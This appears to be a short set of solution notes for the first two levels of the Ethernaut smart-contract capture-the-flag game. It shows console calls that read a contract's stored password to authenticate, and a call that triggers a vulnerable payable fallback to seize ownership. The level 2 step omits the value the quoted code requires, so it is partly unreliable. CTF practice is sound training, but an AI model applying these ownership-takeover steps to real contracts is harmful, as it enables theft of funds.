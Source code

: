 https://blog.trailofbits.com/2017/11/06/hands-on-the-ethernaut-ctf/

## [1. Hello](https://ethernaut.zeppelin.solutions/)

```javascript
help()
await contract.info1()
"Try info2(), but with "hello" as a parameter."
await contract.info2("hello")
"The property infoNum holds the number of the next info method to call."
a = await contract.infoNum()
{s: 1, e: 1, c: [42]}
await contract.info42()
"theMethodName is the name of the next method."
await contract.theMethodName()
"The method name is method7123949."
await contract.method7123949()
"If you know the password, submit it to authenticate()."
p = await contract.password()
await contract.authenticate(p)
```

## [2. Fallback](https://ethernaut.zeppelin.solutions/level/0x234094aac85628444a82dae0396c680974260be7)
```
contract["abi"][7] # the callback function
// let call the contract with non-existing function name to trigger the callback
await contract.fkddkeokdowei()
```
```javascript
  function() payable {
    require(msg.value > 0 && contributions[msg.sender] > 0);
    owner = msg.sender;
  }
```
https://ethernaut.zeppelin.solutions/help
Use Remix to write the code and deploy it in the conrresponding network See Remix Solidity IDE.
